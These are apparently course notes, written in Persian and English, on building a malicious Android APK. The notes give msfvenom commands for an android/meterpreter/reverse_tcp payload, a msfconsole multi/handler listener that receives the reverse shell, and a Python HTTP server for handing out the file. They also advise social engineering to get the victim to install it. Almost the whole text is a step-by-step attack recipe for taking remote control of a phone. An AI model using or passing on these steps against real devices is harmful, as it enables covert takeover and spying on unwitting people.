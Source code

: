 در این جلسه میخواهیم یک APK Malicious ایجاد کنیم که پس از نصب آن بر روی ماشین تارگت یک Reverse Shell از ماشین تارگت در msfconsole دریافت کنیم.
	![[Pasted image 20240725193052.png]]
##### Android Hacking Instruction
1. Generate Payload using `msfvenom`
	1. Payload `android/meterpreter/reverse_tcp`
	2. LHOST=LOCALHOST-IP
	3. LPORT=LOCALHOST-PORT
	4. *Slide*
		1. ![[Pasted image 20240725193647.png]]
```sh
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.10.1 LPORT=4444 -f raw > android_shell.apk
```
	![[Pasted image 20240725193719.png]]
2. Open `multi/handler` Listener for Reverse Android Shell
```sh
sudo msfconsole
msf6> use exploit/multi/handler
msf6> set payload android/meterpreter/reverse_tcp
msf6> set LHOST 192.168.10.1
msf6> exploit
```
3. Now we should install APK Payload on Victim's Machine
	1. برای اینکار میتوانیم از روش های مهندسی اجتماعی استفاده کنیم. در واقع فقط کافیست فایل `apk` حاوی payload بر روی ماشین اندرویدی تارگت نصب شود:
		1. ![[Pasted image 20240725194027.png]]
	2. *مثلا میتوانیم از یک HTTP Server برای اشتراک فایل به ماشین اندرویدی استفاده کنیم >>*
		1. برای اینکار میتوانیم HTTP Server را بوسیله `python3` در فولدری که فایل Payload APK وجود دارد اجرا کنیم تا بتوانیم با اشتراک لینک فایل، آنرا در ماشین تارگت آپلود کنیم.
		2. `cd ~/PhoneSploit`
		3. `python3 -m http.server`
		4. `python3 -m http.server --bind 192.168.180.130 8000` If using NAT network in VM, You should bind IP to http server. 
			1. مخصوصا اگر از کارت شبکه NAT استفاده میکنیم باید آیپی و پورت سرور را مشخص کنیم.
		5. اینکار به این خاطر انجام میدهیم که بتوانیم فایل ها را براحتی به ماشین اندرویدی منتقل کنیم. در واقع با اینکار میتوانیم فایل را تبدیل به لینک کنیم و سپس لینک را برای تارگت بفرستیم.
	3. 
4. After payload installed on Victim's machine, you got `Meterpreter Shell` from Android machine on `msfconsole multi/handler` Listener
	1. ![[Pasted image 20240725194241.png]]
5. Hacking done, now you can run any Meterpreter Command on target machine.
#### Practical Demo
0. *Generate Android Payload with `msfvenom`*
	1. List all android payloads
		1. ![[Pasted image 20240725194512.png]]
	2. using `android/meterpreter/reverse_tcp`
	3. `LHOST` is Local IP of Kali
		1. ![[Pasted image 20240725194636.png]]
	4. `LPORT` is Local Port of `multi/handler Listener` 
```sh
msfvenom -l android | grep android
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.10.1 LPORT=4444 -f raw > file.apk
```
	![[Pasted image 20240725194811.png]]
1. *Start HTTP-Server to easy file Sharing to Android Device*
	1. `cd ~/PhoneSploit`
	2. `python3 -m http.server`
	3. اینکار به این خاطر انجام میدهیم که بتوانیم فایل ها را براحتی به ماشین اندرویدی منتقل کنیم. در واقع با اینکار میتوانیم فایل را تبدیل به لینک کنیم و سپس لینک را برای تارگت بفرستیم.
```sh
cd ~/PhoneSploit
```